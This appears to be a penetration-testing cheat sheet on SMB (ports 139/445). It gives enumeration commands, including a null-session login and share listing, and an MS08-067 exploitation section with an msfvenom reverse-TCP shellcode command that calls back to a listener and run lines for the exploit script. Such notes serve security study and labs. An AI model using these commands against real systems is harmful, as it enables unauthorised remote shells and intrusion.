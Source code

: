 # 139, 445 - SMB

## Enumeration

### General

* [Nmap](../../toolbox/network/nmap.md#smb-scanning)
* [nbtscan](../../toolbox/network/nbtscan.md) -r \<IP range>
* [enum4linux.pl](../../toolbox/network/enum4linux.md)

### Retrieve Server Version

Samba:

```
#term1
sudo ngrep -i -d tun0 's.?a.?m.?b.?a.*[[:digit:]]' port 139

#term2
echo exit | smbclient -L 10.0.0.1
```

Windows:

* Use Wireshark. But it is more complex than just a version.

### Testing NULL Connect

```
rpcclient -U '' -N 10.0.0.1
```

### Enumerate Shares

```
crackmapexec smb 10.0.0.1 -u 'a' -p '' --shares
```

## Mounting Share

```
mount -t cifs -o username=<user>,password=<pass> //<IP>/<share> /mnt/folder/
```

## Exploits

### MS08-067

Script source: [https://github.com/andyacer/ms08\_067](https://github.com/andyacer/ms08\_067)

Generate shellcode:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -a x86 -f c
```

Execution (Python 2):

```
python ms08_067_2018.py <target_ip> 1 445 #Target OS: WinXP
python ms08_067_2018.py <target_ip> 2 139 #Target OS: Win2000
```

